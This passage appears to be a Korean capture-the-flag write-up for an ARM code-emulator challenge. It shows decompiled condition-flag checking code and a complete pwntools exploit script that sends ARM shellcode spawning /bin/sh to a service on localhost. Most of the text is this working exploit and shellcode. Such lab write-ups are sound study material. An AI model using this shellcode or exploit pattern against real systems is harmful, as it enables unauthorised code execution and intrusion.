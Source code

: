 ```c
      valid = cpsr >> 31 == (8 * cpsr) >> 31;
      break;
    case 11u:                                   // signed less than (n != v)
      valid = cpsr >> 31 != (8 * cpsr) >> 31;
      break;
    case 12u:                                   // signed greater than (z == 0 and n == v)
      v1 = (cpsr & 0x40000000) == 0 && cpsr >> 31 == (8 * cpsr) >> 31;
      valid = v1;
      break;
    case 13u:                                   // signed less than or equal (z == 1 or n == v)
      v2 = (cpsr & 0x40000000) != 0 || cpsr >> 31 != (8 * cpsr) >> 31;
      valid = v2;
      break;
    case 14u:                                   // always
      valid = 1;
      break;
    default:                                    // can only be executed unconditionally
      valid = 0;
      break;
  }
  return valid;
}
```

다음과 같이 `ADDS` 인스트럭션의 결과가 1이 되도록 하고, `BLT` 의 분기 주소를 셸코드 이후가 되도록 익스플로잇 코드를 작성하였습니다. 익스플로잇 코드를 실행하면 셸을 획득할 수 있습니다.

```python
#!/usr/bin/python3
from pwn import *

# r = process(["qemu-arm-static", "-L", "/usr/arm-linux-gnueabi", "./app"])
r = remote("localhost", 1234)
# context.log_level = "debug"

def main():
    payload = asm("""
    adds r0, r0, 1
    blt exit

shellcode:
    add r0, pc, 12
    mov r1, 0
    mov r2, 0
    mov r7, 11
    svc 0
    .word 0x6e69622f
    .word 0x0068732f

exit:
    """, arch="arm")

    r.sendafter(b"Insert Your Code :>", payload)
    r.sendlineafter(b":>", b"1")
    r.recvuntil(b"Secret code :")
    r.sendlineafter(b"Code? :>", r.recvline().strip())

    r.interactive()

if __name__ == "__main__":
    main()
```
